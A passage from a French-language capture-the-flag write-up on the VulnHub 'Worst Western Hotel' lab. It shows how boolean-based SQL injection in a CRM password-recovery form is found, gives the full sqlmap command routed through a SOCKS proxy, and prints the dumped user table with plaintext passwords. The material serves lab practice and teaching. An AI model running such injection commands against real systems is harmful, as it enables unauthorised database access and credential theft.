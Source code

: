 Notamment le port 443 héberge un site web pas encore croisé :  

```plain
qloapps@prime:~$ curl -s -k -D- https://192.168.0.1/ | grep -i title
<title>CRM | Login</title>
```

Il s'agit d'une appli web qui expose à ce stade deux fonctionnalités : login et récupération de mot de passe perdu.  

On peut changer la configuration de *Proxy Toggle* dans Firefox pour le faire pointer vers notre SOCKS4 local. De là quelques tests permettent de constater que le formulaire de récupération de mot de passe est vulnérable à une faille d'injection SQL de type test booléen.  

![VulnHub CTF worst western hotel boolean-based SQL injection](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/wwhotel/boolean_sql.png)

Par défaut (en ne passant que les options de base) SQLmap s'y cassait les dents, il a donc fallut le tenir par la main pour qu'il voit l'exploitation boolean-based :  

```bash
$ ./proxychains4 -q -f docker_socks.conf python /tools/sqlmap-dev/sqlmap.py -u 'https://192.168.0.1/forgot-password.php' --data 'email=yolo*&submit=&submit=' --timeout 60 --dbms mysql --level 5 --risk 3 --string 'Your Password'
```

Pour la suite je vous renvoie à l'aide de SQLmap (options *--dbs*, *-D*, *-T*, *--dump*) :  

```plain
available databases [2]:
[*] crm
[*] information_schema

Database: crm
[5 tables]
+-----------+
| user      |
| admin     |
| prequest  |
| ticket    |
| usercheck |
+-----------+

Database: crm
Table: user
[7 entries]
+----+---------------+-------------------------+--------+------------+--------+----------------------------+------------------+--------------------------------+------------+---------------------+
| id | name          | email                   | status | mobile     | gender | address                    | password         | alt_email                      | user_image | posting_date        |
+----+---------------+-------------------------+--------+------------+--------+----------------------------+------------------+--------------------------------+------------+---------------------+
| 3  | Peter Griffin | peterg@worstwestern.com | 0      | 8285703354 | Female | Sec-5 Sahibabad Ghaziabad  | TheBirdIsTheWord | peter.griffin@worstwestern.com | NULL       | 2015-01-01 12:30:00 |
| 7  | Rahul         | rahul@gmail.com         | 0      | 8285703355 | m      | <blank>                    | 123456           | <blank>                        | <blank>    | 2015-02-03 12:30:00 |
| 9  | Anuj          | demo@gmail.com          | 0      | 1234567890 | m      | New Delhi India            | Test@12345       | test@gmail.com                 | <blank>    | 2019-07-10 13:30:00 |
| 11 | Test user     | testuser@gmail.com      | NULL   | 1234567890 | Male   | New Delhi                  | Test@123         | ak@gmail.com                   | NULL       | 2019-08-06 13:09:15 |
| 12 | ABc           | abc@gmail.com           | NULL   | 1234567890 | m      | New Delhi India            | Test@123         | jsadgj@gmail.com               | NULL       | 2019-08-10 06:24:31 |
| 13 | me            | me@home.no              | NULL   | 1          | m      | NULL                       | Test             | NULL                           | NULL       | 2020-10-18 13:09:33 |
| 14 | me            | me@home2.no             | NULL   | 2          | m      | NULL                       | me               | NULL                           | NULL       | 2020-10-18 13:23:55 |
+----+---------------+-------------------------+--------+------------+--------+----------------------------+------------------+--------------------------------+------------+---------------------+

```